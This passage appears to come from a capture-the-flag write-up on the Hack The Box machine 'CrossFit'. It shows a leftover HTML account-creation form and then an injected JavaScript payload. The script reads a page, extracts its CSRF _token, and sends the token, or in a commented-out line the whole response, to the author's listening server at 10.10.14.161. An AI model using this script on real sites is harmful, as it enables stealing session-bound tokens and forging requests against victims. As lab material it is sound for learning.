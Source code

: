 ```markup
        </div>
        <div class="col-xs-12 col-sm-12 col-md-12">
            <div class="form-group">
                <strong>Password:</strong>
                <input type="password" name="pass" class="form-control" placeholder="Password">
            </div>
        </div>
        <div class="col-xs-12 col-sm-12 col-md-12 text-center">
                <button type="submit" class="btn btn-primary">Submit</button>
        </div>
    </div>
</form>
</div>
</body>
</html>
```

![](/assets/img/2.5-recreate-adduser.png)

With this page it looked as if I could create a new account.  I would need to send a POST request to `http://ftp.crossfit.htb/accounts` with a username, password, and the value from the hidden field `_token`. 

```javascript
//test2.js
//testing _token retrieval
//
var test = "http://ftp.crossfit.htb/accounts/create";
var request1 = new XMLHttpRequest();
request1.open('GET', test, false);
request1.send()
var response1 = request1.responseText;

//var request2 = new XMLHttpRequest();
//send response1 to my waiting python http.server 
//request2.open('GET', 'http://10.10.14.161:8090/' + response1, true);
//request2.send();

//var token = response1.getElementsByName('_token')[0].value;
var parser = new DOMParser();
var response_text = parser.parseFromString(response1, "text/html");
var token = response_text.getElementsByName('_token')[0].value;

//send _token value to my waiting python http.server 
var request3 = new XMLHttpRequest();
request3.open('GET', 'http://10.10.14.161:8090/' + token, true);
request3.send();
```

